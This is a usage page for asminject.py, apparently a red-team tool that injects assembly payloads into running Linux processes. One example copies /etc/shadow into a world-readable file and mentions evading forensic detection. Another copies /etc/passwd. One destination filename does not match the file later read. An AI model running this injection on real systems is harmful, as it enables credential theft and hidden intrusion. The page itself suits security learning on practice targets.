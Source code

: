 # asminject.py examples - Basic examples
* [Create a world-readable copy of a file using only Linux syscalls](#create-a-world-readable-copy-of-a-file-using-only-linux-syscalls)
* [Create a copy of a file using buffered read/write libc calls](#create-a-copy-of-a-file-using-buffered-readwrite-libc-calls)
* [Print text to standard output](#print-text-to-standard-output)

## Create a world-readable copy of a file using only Linux syscalls

The `copy_file_using_syscalls.s` payload requires no relative offset information, because it's all done using Linux syscalls. It may also help avoid some methods of forensic detection versus using the `cp`, `cat`, or other shell commands.

In one terminal window, launch one of the practice targets, e.g.:

```
$ python3 practice/python_loop.py

2022-05-12T19:41:23.109251 - Loop count 0
2022-05-12T19:41:28.115898 - Loop count 1
2022-05-12T19:41:33.119542 - Loop count 2
```

In a second terminal window, find the process ID of the target and run `asminject.py` (as `root`) against it.

This payload requires two variables: `sourcefile` and `destfile`.

```
# ps auxww | grep python3 | grep -v grep

root     2036577  [...] python3 practice/python_loop.py

# python3 ./asminject.py 2036577 copy_file_using_syscalls.s \
   --var sourcefile "/etc/shadow" \
   --var destfile "/tmp/bishopfox.txt"

...omitted for brevity...

# cat /tmp/shadow_copied_using_syscalls.txt

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
...omitted for brevity...
```

## Create a copy of a file using buffered read/write libc calls

The `copy_file_using_libc.s` payload uses code that (like the previous example) creates a copy of a file, but by using libc's `fopen()`, `fread()`, `fwrite()`, and `fclose()` instead of syscalls, can easily use a buffered approach that's more efficient.

This payload requires relative offsets for the `libc` shared library used by the target process.

```
# python3 ./asminject.py 1876570 copy_file_using_libc.s \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var sourcefile "/etc/passwd" --var destfile "/var/tmp/copy_test.txt"
```

## Print text to standard output

The `printf.s` payload can be useful for debugging injecting into a particular target. It passes a format string and one parameter to the `libc` `printf` function.

This payload requires relative offsets for the `libc` shared library used by the target process.

```
python3 ./asminject.py 2258 printf.s --arch arm32 \
	--relative-offsets-from-binaries --stop-method "slow" \ 
	--var formatstring "DEBUG: '%s'" \
	--var message "12345"
```